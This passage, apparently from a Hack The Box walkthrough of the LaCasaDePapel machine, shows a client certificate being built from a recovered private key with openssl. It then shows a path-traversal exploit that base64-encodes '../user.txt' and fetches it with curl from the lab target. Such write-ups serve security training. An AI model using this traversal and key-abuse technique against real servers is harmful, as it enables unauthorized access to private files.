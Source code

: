 ```c
                                                                                                                                                  
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/LaCasaDePapel]
└─$ ls
cert.pem  LaCasaDePapel.md  nairobi.key

┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/LaCasaDePapel]
└─$ openssl pkcs12 -export -in cert.pem -inkey nairobi.key -out moneyheist.p12                                                                1 ⨯
Enter Export Password:
Verifying - Enter Export Password:
                                                                                                                                                  
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/LaCasaDePapel]
└─$ ls
cert.pem  LaCasaDePapel.md  moneyheist.p12  nairobi.key
```

Import the certificate in browser,

![](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/LaCasaDePapel/img/3.png)

After importing the client side certificate, reload the site

![](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/LaCasaDePapel/img/4.png)

Proceed with the prompt and you should see the site loading with contents

![](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/LaCasaDePapel/img/5.png)

These are nothing but dummies, but it comes from ```/file/``` suffixed with ```base64``` value of the file name

Lets try for ```path traversal``` in URL

![](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/LaCasaDePapel/img/6.png)

Boom! Its listing all users

![](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/LaCasaDePapel/img/8.png)

So we are in ```berlin``` user,

Now lets try to download ```user.txt```

![](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/LaCasaDePapel/img/9.png)

It throws an exception while traversing and we cannot actually download the file by clicking it

### Lateral movement

To download the file we need to pass ```base64``` value of the file path suffixed with ```/file/```

Using curl for it,

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ echo -n "../user.txt" | base64
Li4vdXNlci50eHQ=

┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/LaCasaDePapel]
└─$ curl -k https://10.10.10.131/file/$(echo -n "../user.txt" | base64)
<---USER FLAG--->
```
